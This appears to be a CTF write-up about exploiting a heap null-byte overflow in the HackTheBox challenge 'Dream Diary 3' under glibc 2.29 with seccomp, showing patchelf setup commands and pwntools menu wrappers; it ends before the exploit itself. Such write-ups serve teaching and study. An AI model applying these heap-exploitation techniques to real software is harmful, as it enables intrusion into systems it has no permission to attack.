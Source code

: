 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2020-02-27-f09f9491-dreamdiary3-hackthebox
tags:
- binary exploitation
- glibc 2.29
- heap
- heap exploit
- null byte overflow
- rop
- seccomp
title: Dream Diary 3 @ HackTheBox
---
```


Dream Diary 3 is a 80 points pwn challenge on hackthebox that involes abusing a null byte overflow on the heap with glibc 2.29. All modern protections are enabled & seccomp is hindering us to call certain systemcalls.

## Setup

The rpath and interpreter values have been tampered with and some values have been overwritten in the provided libc version, which makes it difficult to debug as pwndebug and gefs heap commands won’t work. To work around this issue, I developed the exploit against my local libc (which was also 2.29) and changed offsets later:

```
patchelf --print-rpath diary3
patchelf --print-interpreter diary3
patchelf --set-rpath '/usr/lib/x86_64-linux-gnu/libc.so.6' diary3
patchelf --set-interpreter '/usr/lib/x86_64-linux-gnu/ld-2.29.so' diary3
```

We start the code by writing some wrapper functions for the menu options of the program:

```python
def add(size, data=""):
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil('size: ')
    p.sendline(str(size))
    p.recvuntil('data: ')
    p.sendline(data)


def edit(index, data):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('index: ')
    p.sendline(str(index))
    p.recvuntil('data: ')
    p.sendline(data)

def show(index):
    p.recvuntil('> ')
    p.sendline('4')
    p.recvuntil('index: ')
    p.sendline(str(index))


def free(index):
    p.recvuntil('> ')
    p.sendline('3')
```